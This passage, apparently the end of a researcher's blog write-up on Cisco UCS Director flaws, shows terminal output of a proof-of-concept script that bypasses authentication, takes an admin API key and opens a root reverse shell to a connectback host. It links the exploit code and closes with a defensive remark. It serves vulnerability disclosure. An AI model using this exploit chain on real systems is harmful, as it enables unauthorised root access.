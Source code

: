 ```bash
uid=503(tomcatu) gid=503(tomcatg) groups=503(tomcatg) context=system_u:system_r:initrc_t:s0
uname -a
Linux localhost 2.6.32-754.6.3.el6.x86_64 #1 SMP Tue Oct 9 17:27:49 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
pwd
/opt/infra/web_cloudmgr/apache-tomcat/bin
```

<p class="cn" markdown="1">Wait, didn't you say root access mr_me?</p>

<p class="cn" markdown="1">Yeah my bad. After grinding out 8 different post auth code exec bugs, I found out that a different web service (reachable from our authentication bypass) has a *by design feature* which is a built-in cloupia script interpreter allowing an authenticated attacker to execute arbitrary code as root. At that point, I didn't bother auditing any further and as it turns out, that's a forever day since Cisco declined to patch it:</p>

```bash
saturn:~ mr_me$ ./poc.py 
(+) usage: ./poc.py <target> <connectback:port>
(+) eg: ./poc.py 192.168.100.144 192.168.100.59
(+) eg: ./poc.py 192.168.100.144 192.168.100.59:1337

saturn:~ mr_me$ ./poc.py 192.168.100.144 192.168.100.59:1337
(+) created the exports directory!
(+) found an admins rest api key: 0A7DB7EC61204627BB833CE07AEA0F4C
(+) starting handler on port 1337
(+) triggering reverse shell wait a sec...
(+) connection from 192.168.100.144
(+) pop thy shell!
bash: no job control in this shell
[root@localhost inframgr]# id
id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel) context=system_u:system_r:initrc_t:s0
[root@localhost inframgr]#
```

<p class="cn" markdown="1">You can see find the exploit code [here](/pocs/cve-2020-32{43,47}.py.txt) and [here](/pocs/src-2020-0014.py.txt). Excuse the py2 code eh?</p>

## Conclusion

<p class="cn" markdown="1">The ability to untar an untrusted file can break several assumptions made by developers and it's up to creative attackers to fully expose the impact of such a situation. Additionally, I still believe that applications *should not* allow by design remote code execution features but of course, if it's protected by authentication then you **really** want to make sure you don't have an authentication bypass vulnerability lurking in the code.</p>